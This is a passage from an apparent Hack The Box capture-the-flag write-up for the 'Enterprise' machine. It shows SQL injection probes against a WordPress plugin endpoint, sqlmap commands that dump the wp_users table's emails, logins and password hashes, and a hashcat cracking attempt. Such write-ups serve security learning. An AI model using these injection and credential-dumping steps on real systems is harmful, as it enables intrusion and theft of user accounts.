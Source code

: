 ```bash
# http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=test'                           !!
# http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=test' or sleep(5)-- -           ??
# http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=test and sleep(5)-- -           :):)

# view-source:http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 order by 10-- -     ??

# view-source:http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 order by 1-- -      ??

sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=test' --dbs --batch        # :(    ??
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' --dbs --batch           # :)    ??
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_021.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_022.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_023.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_024.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I would *love* to create a custom script to do the **SQLi**, but according to some comments from much more experienced people, on this machine they don't work very well, so I'm going to keep using the powerful `sqlmap` tool, and very quickly get a password, which has all the appearance of being hashed using the **Wordpress algorithm**, but can't [crack it with `hashcat`](https://blog.wpsec.com/cracking-wordpress-passwords-with-hashcat/){:target="_blank"}. To look for another attack vector, it's a pity because it looked very promising with **SQLi**.

```bash
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress --tables
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_users --columns
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D wordpress -T wp_users -C user_email,user_login,user_pass --dump

nvim hash
hashcat --example-hashes | grep '\$P\$' -A 3 -B 13
hashcat -a 0 -m 400 hash /usr/share/wordlists/rockyou.txt                 # :(
```

<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_025.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_026.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_027.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_028.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_029.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />